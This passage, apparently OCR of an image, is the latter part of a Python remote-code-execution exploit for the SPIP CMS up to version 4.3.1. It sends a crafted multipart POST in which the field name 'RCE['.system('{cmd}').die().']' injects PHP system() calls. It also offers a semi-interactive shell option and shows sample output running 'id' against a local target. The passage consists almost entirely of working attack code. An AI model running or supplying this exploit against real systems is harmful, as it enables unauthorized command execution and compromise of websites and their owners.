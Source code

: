 ```þython
                "page": "spip_pass",
                "lang": "fr",
                "formulaire_action": "oubli",
                "formulaire_action_args": token,
                "formulaire_action_sign": "",
                "oubli": "abc@gmail.com",
                "nobot": "",
                "bigup_retrouver_fichiers": "a",
                f"RCE['.system('{cmd}').die().']": (
                    "abc.txt",
                    io.BytesIO(b"Hello"),
                    "text/plain",
                ),
            }
        )
        url = f"{self.url}/spip.ph%70?pag%65=spip_pass&lang=fr"
        r = requests.Request(
            url=url,
            method="POST",
            data=mp_encoder,
            headers={"Content-Type": mp_encoder.content_type},
        )
        prep = r.prepare()
        prep.url = url
        r = self.s.send(prep, verify=False)
        return r.text.strip()


def get_args():
    parser = argparse.ArgumentParser(description="RCE Spip <= 4.3.1")
    parser.add_argument(
        "-t", "--target", type=str, required=True, help="Target Url (ex: http://)"
    )
    parser.add_argument(
        "-c", "--cmd", type=str, required=False, help="Shell command to execute"
    )
    parser.add_argument(
        "-s", "--shell", action="store_true", help="Semi interactive shell"
    )
    args = parser.parse_args()
    return args


def main():
    args = get_args()
    x = exploit(args)
    if args.cmd:
        res = x.exploit(args.cmd)
        print(res)

    if args.shell:
        while 1:
            r = x.exploit(input("$ "))
            print(r)


if __name__ == "__main__":
    main()

"""
[~/Desktop/autre]$ python3 0day_rce_spip.py -t http://localhost:8000 -c id    
uid=1000(vozec) gid=1000(vozec) groupes=1000(vozec),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),114(lpadmin),995(input)
```
